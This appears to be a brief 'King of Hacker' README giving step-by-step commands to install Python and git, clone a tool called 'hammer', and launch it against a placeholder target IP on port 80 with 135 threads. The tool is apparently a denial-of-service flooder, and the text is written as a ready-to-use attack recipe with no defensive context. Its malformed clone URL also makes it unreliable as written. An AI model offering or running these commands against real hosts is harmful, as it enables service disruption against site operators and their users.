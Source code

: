 # DarkWeb
                             King of Hacker                                 $pkg update  $pkg upgrade  $pkg install python  $pkg install git  $git clone Http//github.com/cyweb/hammer  $Cd hammer  $python hammer.py  $python hammer.py -s [ IP TARGET ] -p 80 -t 135  ☣☣☣☣☣☣☣☣☣☣☣☣☣☣☣☣☣☣☣☣☣☣
